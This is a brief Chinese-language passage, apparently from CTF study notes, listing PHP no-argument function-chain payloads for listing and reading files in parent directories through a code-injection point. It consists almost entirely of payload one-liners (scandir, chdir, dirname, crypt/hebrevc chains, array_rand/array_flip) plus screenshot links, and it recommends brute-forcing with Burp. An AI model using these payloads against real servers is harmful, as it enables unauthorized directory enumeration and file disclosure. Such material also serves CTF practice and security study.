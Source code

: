 **查看多层上级路径：**

`scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))));`
![image-20230720172811801](daydayup.assets/image-20230720172811801.png)

`scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))));` 要刷新很久，建议配合burp爆破使用
![image-20230720175902183](daydayup.assets/image-20230720175902183.png)

**读取多层上层路径文件：**

`array_rand(array_flip(scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))))));`
![image-20230720172840411](daydayup.assets/image-20230720172840411.png)
